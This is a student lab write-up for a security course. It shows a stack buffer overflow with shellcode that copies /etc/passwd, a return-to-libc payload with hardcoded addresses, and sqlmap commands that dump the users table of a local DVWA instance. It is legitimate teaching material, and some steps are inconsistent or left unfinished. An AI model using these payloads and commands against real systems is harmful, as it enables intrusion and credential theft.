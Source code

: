 # Lab #1, 22110082, Nguyen Duc Tri, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80
```

 **Question 1**:
- Compile asm program and C program to executable code. 
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do. 
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
**Answer 1**: 
## 1. Create the assembly shell code named `shellcode.asm` and the given C code named `vuln.c`:
*Copy the assembly code above and save it in the assembly file:* <br> 

## 2. First, compile the Assembly ShellCode: 
*Use `nasm` to assemble the code into an object file:*

```sh
nasm -f elf32 -o shellcode.o shellcode.asm
```

*Link the object file to create an executable file using `ld`:* 

```sh
ld -m elf_i386 -o shellcode shellcode.o
```

*Observe the shellcode in machine format:* 

```sh
for i in $(objdump -d shellcode |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```
*The printed result shows a 97 bytes long:*

![image](https://github.com/user-attachments/assets/200af312-f8e9-436d-95af-dd62ac86c2a6)

*Create an environment variable:*

```sh
nasm -g -f elf shellcode.asm
ld -m elf_i386 -o shellcode shellcode.o
export exploit_path="/seclabs/boff/file_del"
```

![image](https://github.com/user-attachments/assets/1c8f9cbd-1e04-46ac-be88-221e0de33940)


## 3. Next, compile the C program: 
*Compile the C code using `gcc`:* <br> 

```sh
gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```


## 4. Stack Frame Visualization: 
![image](https://github.com/user-attachments/assets/9a7f47b2-94da-4e3f-8255-f84f2c618f6f)

*The program has a vulnerability in the `strcpy` call, where an attacker can overflow the buffer variable in `main`. This allows us to overwrite the saved return address on the stack.* <br> 
*If we want to exploit: <b> 20 bytes(buffer + ebp) + system()  + exit() +  env_var <b> *

## 5. Prerequisite for the attack: 
*In this case, I will use a Return-to-lib-c attack* <br> 
*First, we need to know the address of 3 things I mentioned above, which are system(), exit() and environment variable" <br> 
*Load gdb using:* <br> 

```sh
gdb -q vuln.out
```

*Print out the addresses:* <br> 

![image](https://github.com/user-attachments/assets/8f7359ee-4c45-4ce0-9d8e-20634a285093)

```sh
print system
print exit
find /home/seed/seclabs/boff/vuln
```

*The address of system() is: `0xf7e50db0`*  <br>
*The address of exit() is: `0xf7e449e0`* <br>
*The address of env_var is: `0xffffd8f3`* <br> 


## 6. Conduct an attack: 

```sh
r $(python -c "print(20*'a' + '\xb0\x0d\xe5\xf7' + '\xe0\x49\xe4\xf7' + '\xf3\xd8\xff\xff')")
``` 

**Conclusion:**

# Task 2: Attack on database of DVWA
- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup. 

**Question 1**: Use sqlmap to get information about all available databases <br>
**Answer 1**: <br>
## 1. Identify the vulnerable URL: 
*Let proceed to the cookies when entering ID = 2* 

![image](https://github.com/user-attachments/assets/ef903365-d7e6-419e-9d59-59052b30ef77)

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"    
```

*Revealing the DVWA tables:*
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7"  -D dvwa --tables 
```
![image](https://github.com/user-attachments/assets/0a43a875-621d-4dd9-bf8a-12ede9fa3cf2)


*Revealing the database schemas:*

```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --schema --batch
```
![image](https://github.com/user-attachments/assets/ea59799d-ff40-45ed-be1a-a9a845666ea4)


**Question 2**: Use sqlmap to get tables, users information <br>
**Answer 2**: <br>
*To observe the users information within DVWA, we can use:* <br> 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --columns -T users --batch  
```
![image](https://github.com/user-attachments/assets/946a78a8-58b5-48a0-a967-63884a581622)


**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit <br>
**Answer 3**: <br> 
*Dump usernames and passwords: 
```sh
sqlmap -u "http://localhost/vulnerabilities/sqli/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=equ58cpasfj5q82g3niujb7go7" --dump -T users --batch
```
![image](https://github.com/user-attachments/assets/740644fb-bc79-4c46-b998-02535fe6b624)












